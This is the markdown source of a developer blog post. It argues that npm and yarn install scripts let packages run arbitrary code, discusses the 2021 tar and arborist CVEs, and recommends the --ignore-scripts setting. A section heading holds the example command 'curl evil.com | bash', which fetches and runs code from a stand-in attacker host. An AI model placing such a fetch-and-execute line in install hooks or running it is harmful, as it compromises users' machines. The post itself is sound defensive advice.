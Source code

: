 ```yaml
---
layout: post
title: npm install is curl | bash
date: 2021-09-09T12:57:52.596Z
---
```

Today, GitHub published [a write-up on a number of CVEs](https://github.blog/2021-09-08-github-security-update-vulnerabilities-tar-npmcli-arborist/)[^1] in the npm packages `tar` and `@npmcli/arborist`. In their own words, 

> The npm CLI aims to enforce certain security boundaries on package installation. One of these boundaries is that a package’s contents will only be written to the appropriate folder within the `node_modules` directory hierarchy. Several of the `tar` and `@npmcli/arborist` vulnerabilities will cross that security boundary and may result in unexpected arbitrary file overwrites and subsequent code execution when installing untrusted packages.

This sounds pretty scary: "arbitrary file overwrites and subsequent code execution" is the kind of phrase that you don't want to see in a CVE description. The problem is that by default, npm allows this to happen anyway.

## postinstall: "curl evil.com | bash"

npm (and yarn) will execute arbitrary code when you install a package via [install scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install). A valid use-case is to build native code on installation, or do some other environment-specific setup, though these scripts have also been used to [show ads](https://www.zdnet.com/article/npm-bans-terminal-ads/) and, of course, as an [attack](https://blog.sonatype.com/bladabindi-njrat-rat-in-jdb.js-npm-malware) [vector](https://snyk.io/blog/npm-security-malicious-code-in-oss-npm-packages/). In fact, install scripts [were the most popular route for malware](https://blog.npmjs.org/post/188385634100/npm-security-insights-api-preview-part-2-malware) as of 2019[^2].

Installing a single malicious package is enough to get reasonably pwned. The risk is mitigated by npm’s moderation of the registry — they’re quick to remove malware once discovered. This works pretty well, though I worry about the day someone uses this to [publish a self-replicating worm](https://blog.npmjs.org/post/141702881055/package-install-scripts-vulnerability).

This attack vector isn’t unique to npm. Other package managers like pip and RubyGems allow for the same thing. As developers, we’re not as cautious when installing packages from these registries as when we use `curl | bash`, though we should be[^3].

## Mitigations

When installing an untrusted package, run `npm install` or `yarn add` with the `--ignore-scripts` flag. If, like me, you tend to forget this, you can set npm/yarn to never run scripts with `{npm,yarn} config set ignore-scripts true`.

I also recommend inspecting the source code of a package before you install it. I like to use [xray.computer](https://xray.computer/source) for this, because I made it.

And, of course, update your npm CLI to fix the CVEs that let packages bypass this setting.

[^1]: Specifically, CVE-2021-32803, CVE-2021-32804, CVE-2021-37701, CVE-2021-37712, CVE-2021-37713, CVE-2021-39134, and CVE-2021-39135.

[^2]: No more recent data is available, and work on npm’s Security Insights API/malware database seems to have stalled.

[^3]: You do get the added security feature of integrity checking when installing via a package manager as opposed to `curl | bash`. This prevents e.g. MITM attacks, but don’t forget that packages in open-source registries are mostly trash, with the occasional piece of malware or genuinely useful code floating around.